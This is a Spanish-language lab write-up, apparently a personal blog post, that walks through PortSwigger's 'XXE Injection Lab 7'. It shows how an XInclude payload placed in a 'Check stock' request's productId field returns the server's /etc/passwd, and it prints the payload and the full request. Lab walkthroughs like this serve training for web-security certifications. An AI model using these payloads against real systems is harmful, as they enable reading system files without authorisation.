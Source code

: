 ```yaml
---
title: XXE Injection Lab 7
date: 2024-11-27 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XInclude to retrieve files
image:
  path: /assets/img/XXE-Injection-Lab-7/Portswigger.png
---
```


## Skills

- Exploiting XInclude to retrieve files

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `Check stock` que `inserta` la `entrada` del `usuario` dentro de un `documento XML` en el `servidor`, el cual se procesa posteriormente. Dado que podemos controlar todo el `documento XML`, no podemos `definir` un `DTD` para lanzar un ataque `XXE` clásico. Para `resolver` el `laboratorio`, `inyecta` una `declaración XInclude` para `obtener` el `contenido` del archivo `/etc/passwd`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-7/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-7/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se están tramitando dos campos

![](/assets/img/XXE-Injection-Lab-7/image_3.png)

Como no tenemos el control sobre el `documento XML` completo, no podemos `cargar` un `DTD`, sin embargo, podemos usar la función `XInclude` para `cargar contenido`

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

`Enviamos` este `payload`, este importante `probar todos los campos` para saber cual es el `vulnerable`

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

`Obtenemos` la `respuesta` del `servidor`, la cual nos `muestra` el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-7/image_4.png)
